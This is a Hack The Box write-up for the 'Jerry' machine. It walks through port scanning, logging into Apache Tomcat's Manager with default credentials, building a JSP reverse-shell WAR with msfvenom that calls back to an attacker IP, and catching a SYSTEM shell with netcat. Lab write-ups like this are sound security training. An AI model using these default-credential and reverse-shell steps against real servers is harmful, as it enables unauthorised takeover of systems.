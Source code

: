 # Jerry [HTB](https://app.hackthebox.com/machines/144)
![jerry-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/jerry-01.png)


## Recon 

After adding the target to my `/etc/hosts` file, I scan for open ports with:

```bash
nmap -p- --min-rate 10000 jerry.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/ports-02.png)

Let's run a software and version detection scan againts this port:

```bash
nmap -p 8080 -sCV jerry.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/nmap-res-03.png)

We can see that an Apache Tomcat/Coyote server is running on port 8080. Based on the site's title we can guess that the server is at a fresh install state. 


### Apache-Coyote Port 8080

Before we begin let's answer the following question: 

+ What is Coyote?

From the description of Coyote on the [Tomcat page](https://tomcat.apache.org/tomcat-4.1-doc/config/coyote.html) Coyote is a stand-alone web server that provides servlets to Tomcat applets. That is, it functions like the Apache web server, but for JavaServer Pages (JSP).

It comes with a web interface called the `Manager` which makes it easy to administer and control web applications running in Tomcat using a web browser. Using the Manager, you can deploy a new WAR application and control existing ones without having to restart Tomcat. This should be our exploitation strategy. 

Let's have a look at this server by opening our browser at `http://jerry.htb:8080` :

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/site-04.png)

As you can see, we have three main feature on this page: `Server Status`, `Manager App`, and `Host Manager`. The `Manager App` is what we want access to. Each one of these feature controls different aspects of the Coyote server, and to access each feature we need valid credentials. 

For example, clicking on the `Server Status` button brings the following window:

![login-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/login-05.png)

After a few failed login attempts the server will lock you out for several minutes and disaply this error page:

![err-page-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/err-page-06.png)

As you can see, this page gives a description on how to add users and roles to adminster the server. And in this page we can see suggested credentilas of `tomcat:s3cret` which I highlighted in red. So I decided to try them out, and they worked!

![logged-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/logged-07.png)

As you can see, the server redirected me to `manager/status`, where we can view different statics and info about the server. But what we really want is to access the server Manager app. 


So I decided to click on the `List Application` button on the left side of the page, and the Manager loads:

![manager-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/manager-08.png)

Meaning, the `Server-Status` feature, and the `Manager App` feature of the Tomcat server reused the same credentials. So we have access to the manager, let's try to upload a WAR payload!

If we scroll down a bit we can see the WAR deployment section:

![deploy-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/deploy-09.png)

This is where we will upload our WAR payload. And as you can see, the server asks for a WAR file to deploy, which we need to create. We can do this with `msfvenom` as such:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=9001 -f war > runme.war
```

![msfvenom-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/msfvenom-10.png)

Now we can click on the `Choose File` button and select the war payload we created:


![choose-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/choose-11.png)

And then select `Deploy`. After that, you should see a new application in the applications list called `runme`:

![new-app-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/new-app-12.png)

The tomcat server created a dedicated directory for the uploaded war application. Once we visit this directory, our WAR payload will execute and we should get a connection back to us.

So before we visit the page we need to start a local listener to catch the connection:

```bash
rlwrap nc -lnvp 9001
```

Now we can visit our malicious war application at `http://jerry.htb:8080/runme/` :

![visit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/visit-13.png)

As you can see this returns an empty page, but on my netcat listener I get a connection:

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jerry/img/root-14.png)

Apperantly, the Tomcat server was running under `NT Authority` on the target. So when the reverse shell triggered, we got a shell as the system.

If you are after the CTF flags, there is no low level user on this system, only the Administartor user is present. Inside the admin's Desktop page you will find the following directory:

![flags-15]()

There you will find a file that contains both flags. 
